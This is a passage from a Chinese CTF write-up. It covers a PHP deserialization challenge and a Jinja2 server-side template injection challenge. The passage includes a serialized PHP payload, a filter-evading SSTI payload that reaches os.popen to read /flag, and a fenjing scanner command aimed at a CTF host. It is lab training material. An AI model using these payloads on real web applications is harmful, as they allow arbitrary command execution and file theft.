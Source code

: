 ```php
$t->rank = "department";

echo base64_encode(serialize($s));


输出：
Tzo2OiJzY2hvb2wiOjI6e3M6MTA6ImRlcGFydG1lbnQiO086OToiY2xhc3Nyb29tIjoyOntzOjQ6Im5hbWUiO3M6OToib25lIGNsYXNzIjtzOjY6ImxlYWRlciI7Tzo3OiJ0ZWFjaGVyIjozOntzOjQ6Im5hbWUiO3M6MzoiaW5nIjtzOjQ6InJhbmsiO3M6MTA6ImRlcGFydG1lbnQiO3M6MTU6IgB0ZWFjaGVyAHNhbGFyeSI7Tjt9fXM6MTA6ImhlYWRtYXN0ZXIiO3M6Mzoib25nIjt9
```

然后我们使用**Directorylterator**配合glob伪协议查看文件

![image-20230417121147338](https://s2.loli.net/2023/04/17/GvSEamzRALX1hKN.png)



使用`SplFileObject`配合伪协议读取flag

![image-20230417121323373](https://s2.loli.net/2023/04/17/Zim8qlFnXEae5Y9.png)

[php原生类](https://zhuanlan.zhihu.com/p/458866772)



#### <ez_ze>

![image-20230427214137805](https://s2.loli.net/2023/04/27/Gs5huJVeHf9bkAg.png)

```python
{% set po=dict(po=1,p=1)|join %}
{% set x=(()|select|string|list|attr(po)(24)) %}
{% set ini=x~x~(dict(init=1)|join)~x~x %}
{% set glob=x~x~(dict(globals=1)|join)~x~x %}
{% set geti=x~x~(dict(get=1,item=1)|join)~x~x %}
{% set o=(dict(o=1,s=1)|join) %}
{% set c=(lipsum|attr(glob)|attr(geti))(o) %}
{% set buil=x~x~(dict(buil=1,tins=1)|join)~x~x %}
{% set cc=(a|attr(ini)|attr(glob)|attr(geti))(buil) %}
{% set pope=(dict(pope=1,n=1)|join) %}
{% set read=(dict(read=1)|join) %}
{% set ch=(dict(chr=1)|join) %}
{% set chr=(cc|attr(geti))(ch) %}
{% set file=chr(99)%2Bchr(97)%2Bchr(116)%2Bchr(32)%2Bchr(47)%2Bchr(102)%2Bchr(108)%2Bchr(97)%2Bchr(103) %}
{% print(((c|attr(pope))(file))|attr(read))() %}
```





解法二：

使用工具 [fenjing ](https://github.com/Marven11/Fenjing)

```
python3 -m fenjing scan --url 'http://node2.anna.nssctf.cn:28129/'
```
